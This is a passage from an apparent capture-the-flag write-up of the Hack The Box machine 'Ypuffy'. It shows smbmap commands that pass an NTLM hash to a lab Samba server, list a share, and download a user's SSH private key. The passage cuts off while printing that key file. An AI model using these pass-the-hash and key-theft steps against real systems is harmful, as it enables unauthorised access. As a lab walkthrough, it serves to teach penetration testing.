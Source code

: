 The first thing I did was look up the NT hash online to see if I could quickly get the password but I didn't find any match for this one. It probably uses a strong password which I won't waste time cracking.

![](/assets/images/htb-writeup-ypuffy/ntlm.png)

We don't have the password but we can pass the hash to the Samba server and list the shares:

```
root@ragingunicorn:~# smbmap -u alice1978 -p '00000000000000000000000000000000:0B186E661BBDBDCF6047784DE8B9FD8B' -d hackthebox.htb -H 10.10.10.107
[+] Finding open SMB ports....
[+] Hash detected, using pass-the-hash to authentiate
[+] User session establishd on 10.10.10.107...
[+] IP: 10.10.10.107:445	Name: 10.10.10.107                                      
	Disk                                                  	Permissions
	----                                                  	-----------
	alice                                             	READ, WRITE
	IPC$                                              	NO ACCESS
```

Cool, we can access the `alice` share. Next I listed all the files in the share:

```
root@ragingunicorn:~# smbmap -u alice1978 -p '00000000000000000000000000000000:0B186E661BBDBDCF6047784DE8B9FD8B' -s alice -R -H 10.10.10.107
[+] Finding open SMB ports....
[+] Hash detected, using pass-the-hash to authentiate
[+] User session establishd on 10.10.10.107...
[+] IP: 10.10.10.107:445	Name: 10.10.10.107                                      
	Disk                                                  	Permissions
	----                                                  	-----------
	alice                                             	READ, WRITE
	.\
	dr--r--r--                0 Thu Feb  7 20:48:09 2019	.
	dr--r--r--                0 Tue Jul 31 23:16:50 2018	..
	-r--r--r--             1460 Mon Jul 16 21:38:51 2018	my_private_key.ppk
	IPC$                                              	NO ACCESS
```

That SSH private key looks interesting, let's download it and confirm this is really an SSH key:

```
root@ragingunicorn:~# smbmap -u alice1978 -p '00000000000000000000000000000000:0B186E661BBDBDCF6047784DE8B9FD8B' --download alice/my_private_key.ppk -H 10.10.10.107
[+] Finding open SMB ports....
[+] Hash detected, using pass-the-hash to authentiate
[+] User session establishd on 10.10.10.107...
[+] Starting download: alice\my_private_key.ppk (1460 bytes)
[+] File output to: /usr/share/smbmap/10.10.10.107-alice_my_private_key.ppk
root@ragingunicorn:~# file /usr/share/smbmap/10.10.10.107-alice_my_private_key.ppk
/usr/share/smbmap/10.10.10.107-alice_my_private_key.ppk: ASCII text, with CRLF line terminators
root@ragingunicorn:~# cat /usr/share/smbmap/10.10.10.107-alice_my_private_key.ppk
PuTTY-User-Key-File-2: ssh-rsa
Encryption: none
Comment: rsa-key-20180716
Public-Lines: 6
AAAAB3NzaC1yc2EAAAABJQAAAQEApV4X7z0KBv3TwDxpvcNsdQn4qmbXYPDtxcGz
1am2V3wNRkKR+gRb3FIPp+J4rCOS/S5skFPrGJLLFLeExz7Afvg6m2dOrSn02qux
BoLMq0VSFK5A0Ep5Hm8WZxy5wteK3RDx0HKO/aCvsaYPJa2zvxdtp1JGPbN5zBAj
h7U8op4/lIskHqr7DHtYeFpjZOM9duqlVxV7XchzW9XZe/7xTRrbthCvNcSC/Sxa
iA2jBW6n3dMsqpB8kq+b7RVnVXGbBK5p4n44JD2yJZgeDk+1JClS7ZUlbI5+6KWx
ivAMf2AqY5e1adjpOfo6TwmB0Cyx0rIYMvsog3HnqyHcVR/Ufw==
Private-Lines: 14
```